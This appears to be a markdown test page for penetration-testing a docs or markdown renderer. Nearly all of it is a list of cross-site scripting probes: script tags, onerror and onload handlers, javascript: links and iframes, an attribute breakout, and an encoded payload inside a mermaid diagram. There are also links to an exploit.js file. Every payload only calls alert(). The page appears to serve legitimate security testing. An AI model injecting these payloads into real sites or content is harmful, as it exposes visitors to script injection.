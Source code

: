 # injection

pentest

<script>alert('XSS');</script>

![Broken Image](invalid.jpg ':size=250' )
<img src="invalid.jpg" onerror="alert('XSS')">

<svg onload="alert('XSS')"></svg>

<img src="valid-image.jpg" alt="test" title="XSS" onerror=alert('XSS')>

<img src="valid-image.jpg" alt="test" title="><script>alert('XSS')</script>">

<iframe src="javascript:alert('XSS');"></iframe>

[Click Me](javascript:alert('XSS'))

[malicious link](something"onmouseover="alert('XSS'))

## XSS Test
 ```mermaid
  graph LR
      B-->D(<img onerror=location=`javascript\u003aalert\u0028document.domain\u0029` src=x>);
 ```
## js script
-[get jpg](/SampleJPGImage_1mbmb.jpg ':target=_blank')
-[get js](/exploit.js)
![get js](/exploit.js)
-[get js](/pentest.svg)
![get js](/pentest.svg)
-[get js](/pentest.svg.png)
![get js](/pentest.svg.png)

```
## iFrames Test

<figure>
<iframe width="425" height="350" frameborder="0" scrolling="no" marginheight="0" marginwidth="0" src="https://i.ytimg.com/vi/-IXqbuMOwYg/hq720.jpg?sqp=-oaymwEcCNAFEJQDSFXyq4qpAw4IARUAAIhCGAFwAcABBg==&rs=AOn4CLDmcWpHub9FsBmp6vQgQTz0sWK14Q" style="border: 1px solid black"></iframe>
</figure>

<figure>
<iframe width="560" height="315" src="https://www.youtube.com/embed/-IXqbuMOwYg" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</figure>
```
